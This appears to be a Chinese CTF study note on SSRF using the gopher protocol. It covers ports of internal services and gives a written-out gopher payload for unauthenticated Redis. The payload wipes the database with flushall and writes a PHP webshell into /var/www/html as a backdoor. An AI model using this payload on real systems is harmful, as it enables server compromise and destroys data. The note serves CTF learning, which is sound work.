 ```yaml
---
title: ssrf gopher协议
---
```

# Gopher 协议

在 http 出现之前，访问网页需要输入的是 

gopher://gopher.baidu.com/ 

而不是

https://www.baidu.com/

而它被代替的原因一方面是收费，另一方面的原因是它固化的结构没有HTML网页灵活

利用 gopher 的方式有 FTP 爆破，REDIS，MYSQL，FAST CGI，XXE



## 一些常用服务

Redis	6379

FPM	  9000

Smtp	 25

Mysql	3306

常用的协议

dict 、gopher

以下为经典的 Redis 未授权访问，以及常用 payload 的生成



## 利用方式

比如常见的，web 有一个 curl 的功能，然后可以访问内网靶机，就可以用类似的方式进行命令传递

( payload 每经过一次传递就会被解码一次 )

redis

![3](/images/ssrf-gopher/3.png)

Smtp 生成 payload

![1](/images/ssrf-gopher/1.png)

Fpm 生成 payload

![2](/images/ssrf-gopher/2.png)

gopher支持多行。因此要在传输的数据前加一个无用字符。比如 gopher://ip:port/_ 通常用 _ 并不是只能用 _ ，gopher协议会吃掉第一个字符



## 关于 redis

redis 的格式：每一个 *number 代表每一行命令，number 代表每行命令中数组中的元素个数。$number 代表每个元素的长度。

URL解码后可以看到创建 shell 的完整流程

```gopher://127.0.0.1:6379/_*1
$8							//元素长度为8
flushall
*3							//3个元素
$3
set
$1
1
$31

<?php echo "hello world" ?>

*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$9
shell.php
*1
$4
save
```

即为redis将输入的语句保存在指定位置的php文件中，生成后门



## 相关环境：

BUUCTF[GKCTF_EZWEB]